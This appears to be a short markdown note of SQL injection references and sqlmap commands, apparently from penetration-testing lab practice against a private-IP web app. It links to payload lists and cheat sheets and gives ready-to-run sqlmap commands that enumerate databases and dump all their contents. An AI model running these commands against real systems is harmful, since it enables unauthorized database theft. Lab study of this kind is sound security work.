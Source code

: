 # SQL Injection & SQLMAP commands

## References


Payloads
https://medium.com/@ismailtasdelen/sql-injection-payload-list-b97656cfd66b

Pentestmonkey covers different version of databases
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet



##  Mysql login page bypass using sql injection 

https://sechow.com/bricks/docs/login-1.html

## SQLmap command

1. To list the databases
sqlmap -u "http://192.168.124.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user"  --risk=3 --level=5 --dbs --threads=4 --batch

2. List all the datas from a database
sqlmap -u "http://192.168.124.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user"  -D jabcd0cs --risk=3 --level=5 --dump-all --batch

Database name - jabcd0cs

POST Request
sqlmap -r req.txt --level=5 --risk=3 --dbs
